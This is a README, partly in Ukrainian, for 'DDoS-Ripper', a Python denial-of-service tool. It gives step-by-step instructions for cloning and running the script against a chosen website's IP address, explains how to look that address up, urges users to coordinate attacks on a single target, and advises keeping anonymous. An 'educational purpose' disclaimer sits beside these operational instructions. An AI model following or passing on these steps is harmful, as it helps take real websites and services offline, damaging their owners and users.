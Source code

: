 # DDoS-Ripper

Інструкція як використовувати DDoS-Ripper для DDoS атаки

Необхідно мати встановленим:
> python3 (Скачати можна на сайті https://www.python.org/downloads/ АБО в MICROSOFT STORE) 

Склонуйте цей репозиторій до себе на ПК бажано в папку `C:\Users\<YOUR USER NAME>`
(Для тих хто не має GIT BASH склонувати проект можна скачавши архів з ним. Нажміть на зелену кнопку "CODE" і виберівть "Download ZIP", розархівувати)

1. Після встановлення Python3 і клонування проекту, нажимаємо `WIN + R` > прописуємо `cmd` . Повинна появитись командна строка. 
2. Прописуємо шлях до нашої папки командою "`cd <назва папки>`". По стандарту початкова папка командної строки є `C:\Users\<YOUR USER NAME>` Тому прописуємо "`cd DDos-Ripper`"
3. Зараз ми знаходимось в папці з проектом і потрібно його запустити командою `python3 DRipper.py`
4. Якщо все зроблено добре запуститься проект і вам потрібно буде вказати командою `python3 DRipper.py -s <IP 0.00.00.00> -t 135` на який сайт здійснювати DDoS атаку. 
5. Дізнатись IP сайту можна легко по сервісам в інтернеті до прикладу https://ipinfo.info/html/ip_checker.php Або подібних. 
6. Також є проктий спосіб через командну строку "`pind <SITE URL>`" 
7. Після активації DDoS-Ripper термінал НЕ можна згортати і закривати
8. Групуйтесь із іншими людьми для більш ефективних атак вибираючи одну ціль. 


# What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices.
From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

## NOTE (Please, make sure you have installed python 3 )

![dddd](https://user-images.githubusercontent.com/49250151/96265488-57e53d00-0f7a-11eb-8936-ce2e9a2c42cd.PNG)

## For Termux
To use the DRipper type the following commands in Termux:

`pkg install git -y`

`pkg install python -y`

`pkg install python3 -y`

`git clone https://github.com/palahsu/DDoS-Ripper.git`

`cd DDoS-Ripper`
`$ ls`

`$ python3 DRipper.py` 

## USGAE
`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## For Debian-based GNU/Linux distributions
To use the application, type in the following commands in GNU/Linux terminal.

`sudo apt install git`
`git clone https://github.com/palahsu/DDoS-Ripper.git`
`cd DDoS-Ripper`
`$ ls`
`$ python3 DRipper.py` OR `python2 DRipper.py`

## For Windows

`git clone https://github.com/palahsu/DDoS-Ripper`

`cd DDoS-Ripper`
` ls`

`python3 DRipper.py` OR `python DRipper.py`

`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## For MacOS

Install Brew and Install dependencies (python 3)

# Note:
If you find any problems than please write on issue github and to our Telegram Group. Don't use for revenge! Make sure your anonymity!
It's made for just testing purpose.
We are not responsible for any abuse or damage caused by this program. Only for Educational Purpose.
Thanks.
 
## Requirments ▶

●🖥Linux OS( Kali 🐉 Ubuntu )

●📱Termux >

●🖥Windows

●🖥MAC



Додатково від автора:
# Modified by @palahsu

For any kind of help, support, payment, suggetion and request ask me on Telegram:

<a href="https://t.me/CyberClans"><img src="https://img.shields.io/badge/Telegram-Group%20Telegram%20Join-blue.svg?logo=telegram"></a>

Or Facebook <a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>

## Follow on:
<p align="left">
<a href="https://github.com/palahsu"><img src="https://img.shields.io/badge/GitHub-Follow%20on%20GitHub-inactive.svg?logo=github"></a>
</p><p align="left">
<a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>
</p><p align="left">
<a href="https://t.me/AD0000000"><img src="https://img.shields.io/badge/Telegram-Contact%20Telegram%20Profile-blue.svg?logo=telegram"></a>
</p><p align="left"> 
 
